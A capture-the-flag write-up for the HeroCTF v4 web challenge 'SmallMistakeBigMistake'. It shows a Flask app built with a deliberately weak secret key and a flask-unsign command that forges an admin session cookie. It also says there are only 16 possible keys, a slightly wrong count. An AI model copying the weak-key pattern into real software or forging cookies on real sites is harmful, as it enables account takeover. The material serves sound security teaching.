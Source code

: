 # HeroCTF v4

## Web

### SmallMistakeBigMistake

**Difficulty:** Easy

**Statement:** The website developer made a small mistake in the code of his website.

Can you identify and exploit it to extract the flag?

***

The challenge makes the source code available to us :

```py
#!/usr/bin/env python
from flask import Flask, session, render_template

from string import hexdigits
from random import choice
from os import getenv


app = Flask(__name__)
app.secret_key = choice(hexdigits) * 32


@app.route("/", methods=["GET"])
def index():
    flag = "You are not admin !"
    if session and session["username"] == "admin":
        flag = getenv("FLAG")

    return render_template("index.html", flag=flag)


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=int(getenv("PORT")))
```

Thanks to the source code, the following information can be found :

- A misconfiguration was made on the key generation on `app.secret_key = choice(hexdigits) * 32`

If we rerun the python code, we can see that the generated key is the concatenation of the same hexdigit 32 times :

```py
>>> from string import hexdigits
>>> from random import choice
>>> choice(hexdigits) * 32
'00000000000000000000000000000000'
```

This means that the key can only be composed of 16 different combinations

- The session cookie must be composed of the value `username:admin`

```py
    if session and session["username"] == "admin":
        flag = getenv("FLAG")
```

With this information, we just have to generate the cookie and sign it with the 16 different combinations with `flask-unsign`.

After a few tries, we get the right cookie :

```
# flask-unsign --sign --cookie "{'username': 'admin'}" --secret '22222222222222222222222222222222' --no-literal-eval
eyJ1c2VybmFtZSI6ImFkbWluIn0.YpHUjg.1ZdkOHPQaY8nzDyBfMXlmQlSFgI
```

We just have to go to the web interface, add the cookie and get the flag :

![image](https://user-images.githubusercontent.com/49941629/171150158-ff092d86-70b9-473e-95d9-59bede4be83a.png)

Flag : Hero{Sm4ll_Mist4ke_c4n_be_d4ngerous_10853085}
